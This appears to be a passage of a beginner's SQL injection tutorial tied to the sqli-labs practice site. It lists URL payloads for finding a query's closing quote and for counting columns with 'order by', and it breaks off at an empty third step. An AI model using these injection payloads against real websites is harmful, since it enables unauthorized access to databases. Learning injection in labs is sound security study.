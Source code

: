 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

## 1. Union Injection

Here are some basic steps of union injection.

### 1. Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 2. Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
"""
1' order by 1--+
""" 
and then 
"""
1' order by 2--+
"""
 until errors. That's the column number.

### 3. 
